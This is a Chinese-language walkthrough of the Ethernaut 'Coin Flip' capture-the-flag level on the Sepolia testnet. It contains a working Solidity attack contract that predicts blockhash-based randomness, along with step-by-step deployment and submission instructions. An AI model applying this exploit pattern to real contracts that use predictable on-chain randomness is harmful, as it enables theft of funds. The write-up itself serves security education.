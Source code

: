 # level3 coin flip

## 1. 问题
要求是连续10次调用flip函数，每次都需要猜测成功函数的执行结果。

## 2. 解法

因为合约是白盒，每次执行结果是可预期、可预测的，所以我们的思路就是创建一个合约，然后这个合约每次调用coinflip合约，在调用前，自己执行下同样的计算逻辑，算出来本次合约调用时结果是什么，然后调用flip函数时使用该结果。

因为合约中做了`lastHash`的记录和判断，所以我们如果在一次合约调用时，for循环连续调用flip函数10次，第二次开始，flip中的`lastHash == blockValue`判断就会拒绝执行。

1. 我们编写的合约如下：

```solidity
pragma solidity ^0.8.0;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract Guess {
    CoinFlip private flip;

    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    constructor(address _flip) {
        // 部署合约时绑定CoinFlip合约
        flip = CoinFlip(_flip);
    }
    
    function run() external {
        
        // 完全模仿flip函数，算一遍预期的正反面结果
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        
        // 使用执行的结果调用flip
        bool guessSuccess = flip.flip(side);
        require(guessSuccess, "guess failed");
    }
}
```

2. 将上面的代码放到remix编译

3. 部署，输入CoinFlip合约地址作为入参，remix会唤起metamask[提交交易到sepolia](https://sepolia.etherscan.io/tx/0x5a0344ababcf99673eb4b576e2cb4290838c296332d2174a196b1b70b99ff0da)

4. 我们的Guess合约被部署到：[https://sepolia.etherscan.io/address/0x9cb0fd719a20f7dcc576845217d096614782e8e5](https://sepolia.etherscan.io/address/0x9cb0fd719a20f7dcc576845217d096614782e8e5)

5. 正式开始前，通过ethernaut控制台，确认项当前的次数，确认是0：
```bash
await contract.consecutiveWins().then(v => v.toString())
```

6. 通过remix调用`run`函数：[0xfa434890083a128c93e92046c938eec58040ced7bf050cdb0dd6f8bdd5370d7d](https://sepolia.etherscan.io/tx/0xfa434890083a128c93e92046c938eec58040ced7bf050cdb0dd6f8bdd5370d7d)

7. 通过ethernaut控制台，确认项当前的次数，确认已经更新到1了

8. 重复执行9次

9. 点击 `submit instance`， 提交通过！

